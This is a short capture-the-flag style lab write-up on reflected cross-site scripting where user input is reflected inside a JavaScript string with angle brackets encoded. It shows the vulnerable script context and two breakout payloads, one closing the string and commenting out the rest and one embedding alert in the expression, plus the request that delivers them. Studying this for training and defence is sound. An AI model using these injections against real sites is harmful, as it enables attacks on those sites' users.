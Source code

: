 ### Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string.  

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

_____

Analysis and Exploit:

1. Test string to determine XSS context
```html
<script>
    var searchTerms = 'TESTSEARCH';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

2. Inject payload without breaking the syntax otherwise the entire code would not execute

Payload 1 - Close declaration and comment out the rest of the line ```';alert(1)//```

```html
<script>
    var searchTerms = '';alert(1)//';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Payload 2 - Embed function in string without breaking syntax

```html
<script>
    var searchTerms = ''-alert(document.domain)-'';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

_____

Script notes:

2. GET /?search=[';alert(1)//, URL ENCODED]